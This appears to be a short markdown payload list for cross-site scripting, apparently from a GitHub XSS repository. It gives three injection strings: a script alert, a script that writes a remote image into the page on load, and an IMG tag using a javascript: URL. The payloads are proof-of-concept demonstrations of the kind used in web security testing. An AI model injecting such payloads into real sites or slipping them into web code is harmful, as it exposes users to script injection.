 # Alert
```js
<script>alert("Hello");</script>
```
# Image
```js
<script>function a() { document.write("<img src='https://raw.githubusercontent.com/nu11secur1ty/XSSight/master/XSS-image/image/kostaakatil.webp'></img>"); }; window.onload = a; alert("Hidden scripted image.");</script>
```
# Image XSS using the JavaScript directive

```js
<IMG SRC="javascript:alert('XSS');">
```
